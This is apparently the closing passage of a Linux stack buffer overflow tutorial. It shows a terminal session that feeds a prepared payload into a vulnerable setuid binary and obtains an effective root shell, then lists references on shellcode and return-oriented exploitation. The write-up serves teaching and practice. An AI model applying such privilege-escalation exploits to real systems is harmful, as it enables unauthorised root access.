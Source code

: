 ```bash
ubuntu@ubuntu:/tmp$ (cat /tmp/var; cat) | ./test
Wanna Smash!?: 0xffffcfd0
id
uid=1000(ubuntu) gid=1000(ubuntu) euid=0(root) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```


## References
[PEDA](https://github.com/longld/peda)  
[Ropemporium](https://ropemporium.com/challenge/ret2win.html)  
[SkullSecurity - Registers](https://wiki.skullsecurity.org/index.php?title=Registers)  
[EBP Register](https://practicalmalwareanalysis.com/2012/04/03/all-about-ebp/)  
[Smashing the Stack for Fun and Profit](http://www-inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf)  
[Journey to the Stack](http://duartes.org/gustavo/blog/post/journey-to-the-stack/)  
[RopEmporium - ret2win](https://ropemporium.com/challenge/ret2win.html)  
[ELF x86 - Stack buffer overflow basic 1](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-1)  
[Difference between Real User ID, Effective User ID and Saved User ID](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id)  
[http://shell-storm.org/shellcode/files/shellcode-606.php](http://shell-storm.org/shellcode/files/shellcode-606.php)

## Other Literature
[64 Bit Linux Stack Smashing](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/)  
[Sploitfun Tutorials](https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/)  
[Jumping to shellcode](http://www.abatchy.com/2017/05/jumping-to-shellcode.html)  
[Corelan - Windows Buffer Overflows](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)


